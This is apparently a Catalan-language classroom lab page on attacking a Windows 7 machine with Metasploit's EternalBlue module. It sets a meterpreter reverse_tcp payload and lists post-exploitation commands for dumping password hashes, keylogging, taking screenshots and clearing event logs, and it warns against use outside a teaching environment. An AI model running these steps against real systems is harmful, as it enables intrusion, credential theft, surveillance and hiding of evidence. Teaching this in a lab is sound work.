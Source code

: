 ## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

## Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

* i executem `exploit`

Ja estem dins...

* Comandaments que podem fer servir:
  * De sitema:
    * sysinfo
    * getuid
    * migrate `pid`
    * hashdump
    * upload/download
    * shell
    * sysinfo
  * De Espionatge
    * keyscan_start/keyscan_dump
    * screenshot/screenstreamer
  * Per a no deixar Rastre
    * clearev

Per supossat hi han prou més... convide a l'usuari a investigar-los, només heu de ficar dins de l'exploit: `help`